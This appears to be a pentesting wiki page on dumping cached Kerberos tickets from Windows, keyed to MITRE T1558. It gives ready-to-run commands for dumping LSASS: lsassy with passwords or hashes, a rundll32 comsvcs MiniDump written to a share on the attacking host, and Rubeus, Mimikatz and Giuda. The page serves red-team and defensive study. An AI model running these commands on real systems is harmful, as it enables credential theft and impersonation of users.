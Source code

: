 ```yaml
---
description: MITRE ATT&CK™ Steal or Forge Kerberos Tickets - Technique T1558
---
```


# Cached Kerberos tickets

## Theory

In Windows, [Kerberos](../../../../../ad/persistence/kerberos/) tickets are **handled and stored by the** [**lsass** (Local Security Authority Subsystem Service) ](lsass.md)process, which is responsible for security. Hence, to retrieve tickets from a Windows system, it is necessary to **communicate with lsass and ask for them**. As a **non-administrative user only owned tickets can be fetched**, however, as machine **administrator**, **all** of them can be harvested using tools like **Mimikatz, Rubeus** or **Giuda.**

## Practice

### Enumerate

{% tabs %}
{% tab title="Klist" %}
[Klist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/klist) is a native Windows tool that can display a list of currently cached Kerberos tickets.&#x20;

```powershell
#Enumerate TGT and TGS
klist tickets

#Enumerate sessions
klist sessions
```
{% endtab %}

{% tab title="Rubeus" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can be use to enumerate tickets on windows.

```powershell
.\Rubeus.exe triage
```
{% endtab %}
{% endtabs %}

### Dump tickets

{% tabs %}
{% tab title="UNIX-Like" %}
From an Unix attacking machine, we can remotely dump tickets using [lsassy](https://github.com/Hackndo/lsassy) (python).

```bash
# With a password
lsassy -d <DOMAIN.LOCAL> -u <USER> -p <PASSWORD> <TARGET> -K '/tmp/kerberos_tickets'

# With PtH
lsassy -d <DOMAIN.LOCAL> -u <USER> -H <NTHash> <TARGET> -K '/tmp/kerberos_tickets'

# With PtT
lsassy -k <TARGET> -K '/tmp/kerberos_tickets'
```

We also can do it manually by dumping LSASS memory using one of [this techniques](broken-reference), exfiltrate the dump on our attacking machine, and then retrieve tickets using [pypykatz](https://github.com/skelsec/pypykatz).

```bash
# Example of a dump where Z: is mounted on the attacking host
tasklist /fi "imagename eq lsass.exe"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid Z:\lsass.dmp full

# Get Tickets
pypykatz lsa minidump /path/to/lsass.dmp -k /tmp/kerberos_tickets
```
{% endtab %}

{% tab title="Windows" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can also be use to dump TGTs from the LSASS process

```powershell
# Dump all tickets
.\Rubeus dump

# Dump the interesting one by luid
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap

# Write ticket to disk
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be use to dump TGTs from the LSASS process

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
{% endtab %}
{% endtabs %}

### Ask a TGS

Using tools like **Giuda ,** we can avoid dumping LSASS memory. With the [SeTcbPrivilege](../../../../privilege-escalation/windows/abusing-tokens.md#setcbprivilege), we can read LSA storage, extract the SESSION KEY from TGT, and forge a request asking for a TGS; We must use LUID instead of Username.

{% tabs %}
{% tab title="Giuda" %}
[Giuda](https://github.com/foxlox/GIUDA) can be use to requests a TGS on behalf of another user (without password)

```powershell
#Request a TGS
.\guida.exe -gettgs -luid:<LogonID> -msdsspn:<SPN>

#Example
.\guida.exe -gettgs -luid:0x1875dc -msdsspn:HOST/dc01.lab.local
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows" %}
